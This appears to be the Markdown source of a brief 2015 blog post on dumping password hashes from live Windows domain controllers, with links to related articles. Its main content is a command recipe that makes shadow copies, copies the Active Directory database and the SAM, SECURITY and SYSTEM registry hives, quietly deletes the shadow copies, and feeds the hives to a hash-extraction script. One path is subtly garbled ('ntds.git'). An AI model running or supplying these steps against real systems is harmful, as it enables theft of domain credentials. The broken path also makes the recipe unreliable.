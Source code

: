 ```yaml
---
layout: post
title: "Safely Dumping Hashes from Live Domain Controllers"
date: 2015-06-25 23:42:42 +0900
comments: true
categories: 
---
```


* [Safely Dumping Hashes from Live Domain Controllers](http://securityweekly.com/2011/11/02/safely-dumping-hashes-from-liv/)
* [Tutorial for NTDS goodness](https://www.trustwave.com/Resources/SpiderLabs-Blog/Tutorial-for-NTDS-goodness-%28VSSADMIN,-WMIS,-NTDS-dit,-SYSTEM%29/)
* [Script recipe of the week: how to copy an opened file](http://blogs.msdn.com/b/adioltean/archive/2005/01/05/346793.aspx)

```
C:\> reg.exe query hklm\system\currentcontrolset\services\ntds\parameters

C:\> vssadmin create shadow /for=c:

C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.git d:
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM d:
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM d:

C:\> vssadmin delete shadows /for=c: /quiet

C:\> reg.exe save hklm\sam c:\temp\sam.sav
C:\> reg.exe save hklm\security c:\temp\security.sav
C:\> reg.exe save hklm\system c:\temp\system.sav

$ python sd.py -sam ... -security ... -system ... LOCAL
```

* [Pass-the-hash attacks: Tools and Mitigation](http://www.sans.org/reading-room/whitepapers/testing/pass-the-hash-attacks-tools-mitigation-33283)
